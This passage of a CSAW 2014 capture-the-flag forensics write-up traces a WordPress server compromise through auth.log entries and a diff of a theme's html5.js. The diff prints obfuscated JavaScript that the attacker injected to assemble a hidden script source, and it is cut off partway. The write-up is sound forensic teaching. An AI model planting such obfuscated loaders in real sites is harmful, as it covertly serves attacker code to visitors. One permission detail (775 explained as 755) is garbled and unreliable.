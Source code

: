 We start with the Apache's log, because they carry the connection information. If there is any important information in the log files, it should appears in the end, because the attack should be one of the last things that were logged.

 It turned out that [Tailing] the *apache* logs did not reveal anything useful.

-----
## Inspecting var/logs/auth.log


Considering that the password **fluffybunnies** was very easy to guess, we are going to take a leap and suppose that this was how the attack was crafted.

Tailing ```auth.log``` shows something interesting:

```sh
Sep 17 19:18:53 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/bin/chmod -R 775 /var/www/
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
Sep 17 19:20:55 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/find /var/www/html/ * touch {}
```
So someone logged as root:

 1. downgraded the permissions of */var/www* (755 means read and execute access for everyone and also write access for the owner of the file), and

 2. modified a JavaScript file (html5.js) in *vi*.

---
## Finding the JavaScript Exploit


It looks like an attack to me! Let's [diff] this JavaScript file with the original ([which we can just google]):


```sh
$ diff html5.js html5_normal.js
93,122d92
< var g = "ti";
< var c = "HTML Tags";
< var f = ". li colgroup br src datalist script option .";
< f = f.split(" ");
< c = "";
< k = "/";
< m = f[6];
< for (var i = 0; i < f.length; i++) {
<     c += f[i].length.toString();
< }
< v = f[0];
< x = "\'ht";
< b = f[4];
< f = 2541 * 6 - 35 + 46 + 12 - 15269;
< c += f.toString();
< f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
< c += f.toString();
< f = "";
< c = c.split("");
< var w = 0;
< u = "s";
< for (var i = 0; i < c.length; i++) {
<     if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
<         f += String.fromCharCode(46);
<         w++;
<     }
```

[CSAW CTF 2014 Forensic -Obscurity]: http://bt3gl.github.io/forensics-200-obscurity.html
[online hex-decode]: http://ddecode.com/hexdecoder/
[which we can just google]: http://phpxref.ftwr.co.uk/wordpress/wp-content/themes/twentythirteen/js/html5.js.source.html
[Tailing]: http://en.wikipedia.org/wiki/Tail_(Unix)
[phpMyAdmin]: http://www.phpmyadmin.net/home_page/index.php
[qpdf]: http://qpdf.sourceforge.net/
[l3afpad]: http://tarot.freeshell.org/leafpad/
[diff]: http://linux.die.net/man/1/diff
[MySQL database dump file]: http://dev.mysql.com/doc/refman/5.1/en/mysqldump.html
[Linux File System]: http://www.tldp.org/LDP/intro-linux/html/sect_03_01.html
[LAMP server]: https://coderwall.com/p/syyk0g?i=5&p=1&q=author%3Abt3gl&t%5B%5D=bt3gl
[CSAW2014-FluffyNoMore-v0.1.tar.bz2]: https://ctf.isis.poly.edu/static/uploads/649bdf6804782af35cb9086512ca5e0d/CSAW2014-FluffyNoMore-v0.1.tar.bz2
[bzip2]: http://en.wikipedia.org/wiki/Bzip2
[cute website]: http://ww17.blog.eyeheartfluffybunnies.com/?fp=Tnxj5vWdcChO2G66EhCHHqSAdskqgQmZEbVQIh1DCmrgCyQjbeNsPhkvCpIUcP19mwOmcCS1hIeFb9Aj3%2FP4fw%3D%3D&prvtof=RyfmkPY5YuWnUulUghSjPRX510XSb9C0HJ2xsUn%2Fd3Q%3D&poru=jcHIwHNMXYtWvhsucEK%2BtSMzUepfq46Tam%2BwGZBSFMjZiV2p3eqdw8zpPiLr76ixCoirz%2FR955vowRxEMBO%2FoQ%3D%3D&cifr=1&%22
[blog]: http://ww17.blog.eyeheartfluffybunnies.com
[hashcat]: http://hashcat.net/hashcat/
[file]: http://en.wikipedia.org/wiki/File_(command)
[Kali]: http://www.kali.org/
[Node]: http://nodejs.org/